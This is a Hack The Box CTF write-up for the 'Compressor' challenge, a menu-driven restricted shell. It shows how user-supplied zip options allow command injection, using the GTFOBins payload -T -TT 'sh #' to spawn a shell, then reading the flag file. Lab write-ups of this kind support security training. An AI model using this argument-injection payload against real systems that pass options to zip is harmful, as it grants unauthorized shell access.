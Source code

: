 ```yaml
---
clayout: ctf
title: Compressor
date: 2025-01-05
image: /icon/hack-the-box/misc.svg
type: Hack The Box

ctf:
    - name: Compressor
      link: https://app.hackthebox.com/challenges/358
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/358
          thumbnail: /ctf/hack-the-box/challenges/misc/compressor/pwned.png
---
```


## Challenge Description

Ramona&#039;s obsession with modifications and the addition of artifacts to her body has slowed her down and made her
fail and almost get killed in many missions. For this reason, she decided to hack a tiny robot under Golden Fang&#039;s
ownership called &quot;Compressor&quot;, which can reduce and increase the volume of any object to minimize/maximize it
according to the needs of the mission. With this item, she will be able to carry any spare part she needs without adding
extra weight to her back, making her fast. Can you help her take it and hack it?

## Challenge Overview

The challenge involves interacting with a restricted shell-like environment designed for manipulating directories and
files. The provided interface allows users to perform actions such as listing directories, creating artifacts,
compressing files, and cleaning up directories.

Upon entering the environment, we are greeted with the following interface:

```bash
[*] Directory to work in: OI0tMEZ8NA69fRAu7Eq34GR2EtQZvKkI

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+

[*] Choose component: 1

[*] Sub-directory to work in: OI0tMEZ8NA69fRAu7Eq34GR2EtQZvKkI/Head


Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Compress artifact (zip <name>.zip <name> <options>)
4. Change directory  (cd <dirname>)
5. Clean directory   (rm -rf ./*)
6. Exit

[*] Choose action:
```

The key observation is the ability to compress files using the zip command with user-provided options, creating an
opportunity for command injection.

## Zip shell

The [GTFOBins](https://gtfobins.github.io/gtfobins/zip/) documents a privilege escalation technique involving the `zip`
command. This method allows us to invoke a shell through carefully crafted options.

### Steps to Exploit

1. **Select the Compress Artifact Action**:
   From the menu, choose the `Compress artifact` action by entering `3`.

2. **Craft Malicious Options**:
   Input options for the `zip` command that invoke a shell:
   ```bash
   -T -TT 'sh #'
   ```

3. **Complete the Inputs**:
   Provide the requested inputs:
    - **Name of the ZIP file**: Any name, e.g., `exploit.zip`.
    - **Name of the artifact**: Any name, e.g., `exploit`.

4. **Trigger the Exploit**:
   Submit the crafted options to execute a shell:
   ```plaintext
   Actions:

   1. Create artifact
   2. List directory    (pwd; ls -la)
   3. Compress artifact (zip <name>.zip <name> <options>)
   4. Change directory  (cd <dirname>)
   5. Clean directory   (rm -rf ./*)
   6. Exit

   [*] Choose action: 3

   Insert <name>.zip: exploit.zip
   Insert <name>: exploit
   Insert <options>: -T -TT 'sh #'
     adding: exploit (stored 0%)
   id
   uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
   ```

   The `zip` command executes successfully, dropping us into an interactive shell.

## Flag Retrieval

With access to the shell, we can navigate the file system to locate the flag. The flag is found in the `ctf` user's home
directory:

```bash
cat /home/ctf/flag.txt
HTB{f4k3_fLaG}
```

## References

- [GTFOBins - zip](https://gtfobins.github.io/gtfobins/zip/)
